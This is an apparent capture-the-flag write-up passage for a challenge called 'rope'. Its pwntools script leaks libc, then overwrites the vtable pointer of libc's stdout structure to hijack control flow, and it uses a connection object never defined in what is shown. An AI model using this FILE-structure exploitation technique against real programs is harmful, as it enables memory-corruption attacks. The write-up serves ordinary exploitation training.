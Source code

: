 ![image](attachments/pwn/rope/stdout.png)

We can put **puts** in our `inp[256]` variable, and then point the vtable to **inp-0x38**.

```python
from pwn import *

context.binary = elf = ELF('./vuln')
libc = ELF("./libc-2.23.so")

main_inputs = 0x401341 # address in main to return to, where 3 inputs are taken

puts = int(p.recvline(), 16) # get our leak to resolve libc base
libc.address = puts - libc.sym.puts

print(f"{libc.address:#x}")

def rsd(ret, where, write_what):
    p.sendline(ret)
    p.sendline(str(where))
    p.sendline(str(write_what))

# loop the program infinitely by overwriting vtable pointer in stdout
rsd(p64(main_inputs), libc.sym._IO_2_1_stdout_ + 0xd8, elf.sym.inp - 0x38)

p.interactive()
```
